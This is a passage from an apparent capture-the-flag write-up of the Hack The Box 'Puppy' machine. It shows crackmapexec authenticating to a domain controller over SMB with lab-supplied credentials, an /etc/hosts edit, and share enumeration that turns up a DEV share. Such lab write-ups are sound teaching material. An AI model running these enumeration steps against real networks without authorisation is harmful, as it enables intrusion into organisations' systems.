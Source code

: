 ```
49669/tcp open  unknown
49670/tcp open  unknown
49692/tcp open  unknown
49718/tcp open  unknown
61847/tcp open  unknown
```


<p class="indent-paragraph">
All signs were screaming “domain controller.” So we tossed the creds into SMB to see what would bite. Using<code>crackmapexec</code><span class="codefix">,</span> we authenticated to the SMB service with the provided credentials. The response confirmed our theory, this machine is indeed a domain controller named <code>DC</code><span class="codefix">,</span> part of the <span class="blue">PUPPY.HTB</span> domain. 
</p>

```
~$ crackmapexec smb <IP> -u levi.james -p 'KingofAkron2025!'

SMB         <IP>     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         <IP>     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
```

<p class="indent-paragraph">
Since we now know the domain is <span class="blue">PUPPY.HTB</span> and the hostname of the controller is simply<code>DC</code><span class="codefix">,</span> it’s a safe bet that<code>dc.puppy.htb</code> will resolve internally. Adding this entry to our local resolver will allow us to refer to the domain controller by name instead of IP, which comes in handy when dealing with SMB, Kerberos, and other AD protocols. 
</p>


```
~$ nano /etc/hosts

<IP>   dc.puppy.htb
```

### 📂 Enumerating SMB Shares

<p class="indent-paragraph">
With the hostname now resolvable, we proceeded to enumerate SMB shares using valid credentials. The scan confirmed the host as a Windows Server 2022 domain controller in the <span class="blue">PUPPY.HTB</span> realm. Alongside standard shares like <code>ADMIN$</code><span class="codefix">,</span> <code>C$</code><span class="codefix">,</span> and <code>IPC$</code><span class="codefix">,</span> one stood out:<span><code>DEV</code></code><span class="codefix">,</span> a custom entry labeled as a development resource for “PUPPY-DEVS”. Interestingly, no permissions were listed for the DEV share, suggesting either a misconfiguration or that <code>levi.james</code> wasn't part of the appropriate group.
</p>



```
~$ crackmapexec smb dc.puppy.htb -u levi.james -p 'KingofAkron2025!' --shares

SMB         dc.puppy.htb    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         dc.puppy.htb    445    DC               [+] Enumerated shares
SMB         dc.puppy.htb    445    DC               Share           Permissions     Remark
SMB         dc.puppy.htb    445    DC               -----           -----------     ------
SMB         dc.puppy.htb    445    DC               ADMIN$                          Remote Admin
SMB         dc.puppy.htb    445    DC               C$                              Default share
SMB         dc.puppy.htb    445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         dc.puppy.htb    445    DC               IPC$            READ            Remote IPC
```